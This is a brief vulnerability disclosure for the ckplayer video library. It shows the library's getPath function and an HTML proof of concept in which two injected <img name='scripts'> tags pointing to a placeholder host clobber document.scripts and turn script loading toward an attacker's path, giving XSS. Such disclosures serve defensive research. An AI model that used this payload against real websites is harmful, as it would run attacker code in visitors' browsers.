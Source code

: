 ## ckplayer

### Meta

+ Library: ckplayer
+ Stars: 1.1K
+ Version: latest
+ Payload: ```<img name="scripts" src="https://xxx.xxx.xxx/js/"><img name="scripts" src="https://xxx.xxx.xxx/js/">```
+ Impact: XSS
+ CVE: N/A
+ Status: N/A
+ Foundby: TheHulk


### Library

https://gitee.com/niandeng/ckplayer

### Vulnerable Code Snippet

```javascript
function getPath(siz) {
  var scriptList = document.scripts,
    thisPath = scriptList[scriptList.length - 1].src;
  for (var i = 0; i < scriptList.length; i++) {
    var scriptName = scriptList[i].getAttribute('name') || scriptList[i].getAttribute('data-name');
    var src = scriptList[i].src.slice(scriptList[i].src.lastIndexOf('/') + 1, scriptList[i].src.lastIndexOf('.'));
    if ((scriptName && (scriptName == 'ckplayer' || scriptName == 'ckplayer.min')) || (scriptList[i].src && (src == 'ckplayer' || src == 'ckplayer.min'))) {
      thisPath = scriptList[i].src;
      break;
    }
  }
  var path=thisPath.substring(0, thisPath.lastIndexOf('/js/') + 1);
  if(!isUndefined(siz)){
    path+=siz+'/';
  }
  return path;
}
```

### PoC
```html

<!--Library-->
<script>
<link type="text/css" rel="stylesheet" href="ckplayer/css/ckplayer.css" />
<script type="text/javascript" src="ckplayer/js/ckplayer.js" charset="UTF-8"></script>
<div class="video" style="width: 600px;height: 400px;">播放器容器</div>
<script type="text/javascript">
    var videoObject = {
        language: 'en',
        container: '.video',
        video: 'https://fake-server/no.mp4'
    };
    var player = new ckplayer(videoObject);
</script>
</script>
<!--Library-->

<!--Payload-->
<img name="scripts" src="https://xxx.xxx.xxx/js/">
<img name="scripts" src="https://xxx.xxx.xxx/js/">
<!--Payload-->
```